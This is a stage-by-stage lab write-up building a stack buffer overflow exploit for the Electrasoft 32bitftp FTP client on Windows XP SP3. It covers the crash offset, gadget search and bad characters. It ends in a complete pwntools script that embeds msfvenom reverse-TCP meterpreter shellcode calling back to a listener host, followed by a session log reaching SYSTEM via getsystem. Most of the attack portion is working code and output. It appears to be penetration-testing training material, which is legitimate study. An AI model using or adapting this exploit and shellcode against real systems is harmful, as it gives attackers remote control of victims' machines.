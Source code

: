 Exploit development
===================
Stage 1: Verifying the exploitable condition
--------------------------------------------
```
from pwn import *

buf = "A" * 2000

l = listen(21)
conn = l.wait_for_connection()
conn.sendline('220 ' + buf + '\r\n')
conn.recv()
```

![alt text](https://github.com/sourcekris/PTPv3/raw/master/lab1/s1.PNG "")


Stage 2: Finding the crash offset
---------------------------------
```
from pwn import *
import subprocess

print "[+] Generating payload."
buf = subprocess.check_output(['/usr/share/metasploit-framework/tools/exploit/pattern_create.rb','1500'])

l = listen(21)
conn = l.wait_for_connection()
conn.sendline('220 ' + buf + '\r\n')
conn.recv()
```

![alt text](https://github.com/sourcekris/PTPv3/raw/master/lab1/s2.PNG "")

```
root@ubuntu:~/ecppt/labs/lab1# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 30684239
[*] Exact match at offset 989
```

Stage 3: Find a JMP ESP gadget
------------------------------
```
root@ubuntu:~/ecppt/labs/lab1# msfpescan -j esp 32bitftp.exe 

[32bitftp.exe]
0x0040fbc1 push esp; retn 0x0008
0x0044d701 push esp; retn 0x000c
0x0045eb3b jmp esp
0x0045fa3b jmp esp
0x004c00dd jmp esp
0x004c04cb jmp esp
0x004c1a11 jmp esp
0x004c1c3f jmp esp
0x004c1d5b jmp esp
0x004c20b9 jmp esp
0x004c2325 jmp esp
0x004c245d jmp esp
0x004c320b jmp esp
0x004c350f jmp esp
0x004c360f jmp esp
0x004c3f81 jmp esp
0x004c5a65 jmp esp
0x004c7ce5 jmp esp
0x004c7d21 jmp esp
0x004cb7fb jmp esp
0x004cd3cf jmp esp
0x004ce083 jmp esp
0x004cedd5 jmp esp
0x004cefe7 jmp esp
0x004ceffd jmp esp
0x004d0aad jmp esp
0x004d188c push esp; ret
0x004d8ffb jmp esp
```

All of these have nulls in them, so we need to validate if nul is fine in our buffer.

We're gonna test by setting the EIP value to our JMP ESP and setting a breakpoint to see if it reaches it.

![alt text](https://github.com/sourcekris/PTPv3/raw/master/lab1/s3_1.PNG "")

```
from pwn import *

buf = "A" * 989					# our eip begins @ 989 bytes 
buf += p32(0x0045eb3b)			# jmp esp in 32bitftp.exe
buf += "A" * (2000 - len(buf))	# pad to 2000 bytes

l = listen(21)
conn = l.wait_for_connection()
conn.sendline('220 ' + buf + '\r\n')
conn.recv()

```

![alt text](https://github.com/sourcekris/PTPv3/raw/master/lab1/s3_2.PNG "")

We see that our EIP value was set to 0x3e45eb3b instead of 0x0045eb3b meaning our null byte was not sucessfully passed throught the FTP client onto the stack. So we need to find a JMP esp in a loaded segment without null bytes.

We examine the loaded modules and see quite a number that have longer 32bit addresses:

![alt text](https://github.com/sourcekris/PTPv3/raw/master/lab1/s3_3.PNG "")

We try ntdll.dll and using msfpescan find a push esp; ret ROP gadget at 0x7c919db0: 

```
root@ubuntu:~/ecppt/labs/lab1# msfpescan -j esp ntdll.dll 

[ntdll.dll]
0x7c919db0 push esp; ret

```

I update the exploit to use this address:

```
from pwn import *

buf = "A" * 989					# our eip begins @ 989 bytes 
buf += p32(0x7c919db0)			# push esp; ret in ntdll.dll
buf += "A" * (2000 - len(buf))	# pad to 2000 bytes

l = listen(21)
conn = l.wait_for_connection()
conn.sendline('220 ' + buf + '\r\n')
conn.recv()

```

I set a breakpoint at the 0x7c919db0 address and see we've successfully got our execution control pointing to our buffer of "A"s:

![alt text](https://github.com/sourcekris/PTPv3/raw/master/lab1/s3_4.PNG "")

Stage 4: Introduce Shellcode
----------------------------

I'm using msfvenom to generate a payload for windows/meterpreter/reverse_tcp and use shikata_ga_nai to encode away badcharacters which I identified as:

* 0x00,0x0a,0x0d

```
root@ubuntu:~/ecppt/labs/lab1# msfvenom -n 8 -e x86/shikata_ga_nai -p windows/meterpreter/reverse_tcp LHOST=192.168.206.132 LPORT=4444 -b \x00\x0a\x0d -f py
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Successfully added NOP sled from x86/single_byte
Payload size: 368 bytes
buf =  ""
buf += "\x4a\x91\x2f\x49\x4a\x98\x48\x43\xdd\xc1\xba\x0c\x13"
buf += "\x64\xd7\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x54\x31\x53"
buf += "\x18\x83\xc3\x04\x03\x53\x18\xf1\x91\x2b\xc8\x77\x59"
buf += "\xd4\x08\x18\xd3\x31\x39\x18\x87\x32\x69\xa8\xc3\x17"
buf += "\x85\x43\x81\x83\x1e\x21\x0e\xa3\x97\x8c\x68\x8a\x28"
buf += "\xbc\x49\x8d\xaa\xbf\x9d\x6d\x93\x0f\xd0\x6c\xd4\x72"
buf += "\x19\x3c\x8d\xf9\x8c\xd1\xba\xb4\x0c\x59\xf0\x59\x15"
buf += "\xbe\x40\x5b\x34\x11\xdb\x02\x96\x93\x08\x3f\x9f\x8b"
buf += "\x4d\x7a\x69\x27\xa5\xf0\x68\xe1\xf4\xf9\xc7\xcc\x39"
buf += "\x08\x19\x08\xfd\xf3\x6c\x60\xfe\x8e\x76\xb7\x7d\x55"
buf += "\xf2\x2c\x25\x1e\xa4\x88\xd4\xf3\x33\x5a\xda\xb8\x30"
buf += "\x04\xfe\x3f\x94\x3e\xfa\xb4\x1b\x91\x8b\x8f\x3f\x35"
buf += "\xd0\x54\x21\x6c\xbc\x3b\x5e\x6e\x1f\xe3\xfa\xe4\x8d"
buf += "\xf0\x76\xa7\xd9\x35\xbb\x58\x19\x52\xcc\x2b\x2b\xfd"
buf += "\x66\xa4\x07\x76\xa1\x33\x68\xad\x15\xab\x97\x4e\x66"
buf += "\xe5\x53\x1a\x36\x9d\x72\x23\xdd\x5d\x7b\xf6\x48\x5b"
buf += "\xeb\x39\x24\xad\x6f\xd1\x37\x32\x7e\x7e\xb1\xd4\xd0"
buf += "\x2e\x91\x48\x90\x9e\x51\x39\x78\xf5\x5d\x66\x98\xf6"
buf += "\xb7\x0f\x32\x19\x6e\x67\xaa\x80\x2b\xf3\x4b\x4c\xe6"
buf += "\x79\x4b\xc6\x03\x7d\x05\x2f\x61\x6d\x71\x4e\x89\x6d"
buf += "\x81\xfb\x89\x07\x85\xad\xde\xbf\x87\x88\x29\x60\x78"
buf += "\xff\x29\x67\x86\x7e\x18\x13\xb0\x14\x24\x4b\xbc\xf8"
buf += "\xa4\x8b\xea\x92\xa4\xe3\x4a\xc7\xf6\x16\x95\xd2\x6a"
buf += "\x8b\x03\xdd\xda\x7f\x84\xb5\xe0\xa6\xe2\x19\x1a\x8d"
buf += "\x71\x5d\xe4\x53\x57\xc6\x8d\xab\xd7\xf6\x4d\xc6\xd7"
buf += "\xa6\x25\x1d\xf8\x49\x86\xde\xd3\x01\x8e\x55\xb5\xe0"
buf += "\x2f\x69\x9c\xa5\xf1\x6a\x12\x7e\xe7\xe4\xd5\x81\x08"
buf += "\x07\xea\x57\x31\x7d\x2b\x64\x06\x8e\x06\xc9\x2f\x05"
buf += "\x68\x5d\x2f\x0c"
```

Our final exploit now looks like this:

```
#!/usr/bin/python
# 
# Electrasoft FTP Client exploit
# Author: Kris Hunt 
#
# Target: Windows XP SP3

from pwn import *

buf = "A" * 989			# our eip begins @ 989 bytes 
buf += p32(0x7c919db0)		# push esp; ret in ntdll.dll

# shellcode, reverse meterpreter, port 4444
buf += "\x4a\x91\x2f\x49\x4a\x98\x48\x43\xdd\xc1\xba\x0c\x13"
buf += "\x64\xd7\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x54\x31\x53"
buf += "\x18\x83\xc3\x04\x03\x53\x18\xf1\x91\x2b\xc8\x77\x59"
buf += "\xd4\x08\x18\xd3\x31\x39\x18\x87\x32\x69\xa8\xc3\x17"
buf += "\x85\x43\x81\x83\x1e\x21\x0e\xa3\x97\x8c\x68\x8a\x28"
buf += "\xbc\x49\x8d\xaa\xbf\x9d\x6d\x93\x0f\xd0\x6c\xd4\x72"
buf += "\x19\x3c\x8d\xf9\x8c\xd1\xba\xb4\x0c\x59\xf0\x59\x15"
buf += "\xbe\x40\x5b\x34\x11\xdb\x02\x96\x93\x08\x3f\x9f\x8b"
buf += "\x4d\x7a\x69\x27\xa5\xf0\x68\xe1\xf4\xf9\xc7\xcc\x39"
buf += "\x08\x19\x08\xfd\xf3\x6c\x60\xfe\x8e\x76\xb7\x7d\x55"
buf += "\xf2\x2c\x25\x1e\xa4\x88\xd4\xf3\x33\x5a\xda\xb8\x30"
buf += "\x04\xfe\x3f\x94\x3e\xfa\xb4\x1b\x91\x8b\x8f\x3f\x35"
buf += "\xd0\x54\x21\x6c\xbc\x3b\x5e\x6e\x1f\xe3\xfa\xe4\x8d"
buf += "\xf0\x76\xa7\xd9\x35\xbb\x58\x19\x52\xcc\x2b\x2b\xfd"
buf += "\x66\xa4\x07\x76\xa1\x33\x68\xad\x15\xab\x97\x4e\x66"
buf += "\xe5\x53\x1a\x36\x9d\x72\x23\xdd\x5d\x7b\xf6\x48\x5b"
buf += "\xeb\x39\x24\xad\x6f\xd1\x37\x32\x7e\x7e\xb1\xd4\xd0"
buf += "\x2e\x91\x48\x90\x9e\x51\x39\x78\xf5\x5d\x66\x98\xf6"
buf += "\xb7\x0f\x32\x19\x6e\x67\xaa\x80\x2b\xf3\x4b\x4c\xe6"
buf += "\x79\x4b\xc6\x03\x7d\x05\x2f\x61\x6d\x71\x4e\x89\x6d"
buf += "\x81\xfb\x89\x07\x85\xad\xde\xbf\x87\x88\x29\x60\x78"
buf += "\xff\x29\x67\x86\x7e\x18\x13\xb0\x14\x24\x4b\xbc\xf8"
buf += "\xa4\x8b\xea\x92\xa4\xe3\x4a\xc7\xf6\x16\x95\xd2\x6a"
buf += "\x8b\x03\xdd\xda\x7f\x84\xb5\xe0\xa6\xe2\x19\x1a\x8d"
buf += "\x71\x5d\xe4\x53\x57\xc6\x8d\xab\xd7\xf6\x4d\xc6\xd7"
buf += "\xa6\x25\x1d\xf8\x49\x86\xde\xd3\x01\x8e\x55\xb5\xe0"
buf += "\x2f\x69\x9c\xa5\xf1\x6a\x12\x7e\xe7\xe4\xd5\x81\x08"
buf += "\x07\xea\x57\x31\x7d\x2b\x64\x06\x8e\x06\xc9\x2f\x05"
buf += "\x68\x5d\x2f\x0c"
buf += "A" * (2000 - len(buf))	# pad to 2000 bytes

l = listen(21)
conn = l.wait_for_connection()
conn.sendline('220 ' + buf + '\r\n')
conn.recv()
```

Which we run and successfully get a reverse_tcp meterpreter shell:

```
[*] Started reverse TCP handler on 192.168.206.132:4444 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 192.168.206.131
[*] Meterpreter session 1 opened (192.168.206.132:4444 -> 192.168.206.131:1184) at 2016-01-22 19:46:20 -0800

meterpreter > sysinfo
Computer        : KRIS-5AB5C15869
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > getuid
Server username: KRIS-5AB5C15869\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```


